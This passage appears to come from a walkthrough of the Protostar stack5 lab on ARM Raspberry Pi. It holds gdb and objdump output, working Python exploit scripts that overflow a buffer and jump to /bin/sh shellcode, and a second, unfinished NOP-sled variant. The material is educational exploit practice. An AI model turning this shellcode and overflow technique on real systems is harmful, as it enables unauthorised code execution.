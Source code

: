 ```code
0xffff0000 0xffff1
```
> ##### 1.2 An instruction in libc to jump to the sp
```code
pi@raspberrypi:~/protostar/stack5 $ objdump -D -b binary -marm -Mforce-thumb /lib/arm-linux-gnueabihf/libc-2.28.so > libc_dump.txt
pi@raspberrypi:~/protostar/stack5 $ cat libc_dump.txt | grep 'sp' | grep 'bl'
   26fd4:	47e8      	blx	sp
```
Let's write our python scripts
```Python
import struct
libc_base = 0x76e6b000
offset_libc = 0x26fd4
shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58"
buf = "A" * 68
buf += struct.pack( "<I", libc_base + offset_libc + 1)   # blx sp to libc
buf += shellcode
print (buf)
```
run it, and ...
```code
pi@raspberrypi:~/protostar/stack5 $ python exploit.py > shell_1
pi@raspberrypi:~/protostar/stack5 $ cat shell_1 - | ./stack5
pwd
/home/pi/protostar/stack5
exit
pi@raspberrypi:~/protostar/stack5 $
```
__It works :)__


#### 2. Jump directly to the stack
Let's run the program in gdb and take a look to the stack:  
```code
gef➤  x/60x $sp
0x7efff408:	0x7efff5a4	0x00000001	0x61616161	0x61616161
0x7efff418:	0x61616161	0x61616161	0x61616161	0x61616161
0x7efff428:	0x61616161	0x61616161	0x61616161	0x61616161
0x7efff438:	0x61616161	0x61616161	0x61616161	0x61616161
0x7efff448:	0x61616161	0x61616161	0x00000000	0x76e82718
0x7efff458:	0x76fb5000	0x7efff5a4	0x00000001	0x00010404
0x7efff468:	0xf0357bfb	0xf822a977	0x00000000	0x00010434
0x7efff478:	0x00010314	0x00000000	0x00000000	0x00000000
0x7efff488:	0x76fff000	0x00000000	0x00000000	0x00000000
0x7efff498:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff4a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff4b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff4c8:	0x00000000	0x00000000	0x00000001	0x76fff978
0x7efff4d8:	0x76fffb34	0x00000000	0x76fd879c	0x7efff5a4
0x7efff4e8:	0x7efff5ac	0x76ffe964	0x00000000	0x76fff000
```
Inspecting the stack, as we can see, we can redirect the execution from `0x76e82718` to the stack itself, where is placed out shellcode, filling the gap between the jump and the shellcode with some nop operations.
We will store our shellcode in `0x7efff498`  
```Python
import struct
shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58"
nopsled = "\x01\x10\xa0\xe1"  * 64
buf = "A" * 68
buf += struct.pack( "<I", 0x7efff498)   
buf += nopsled
```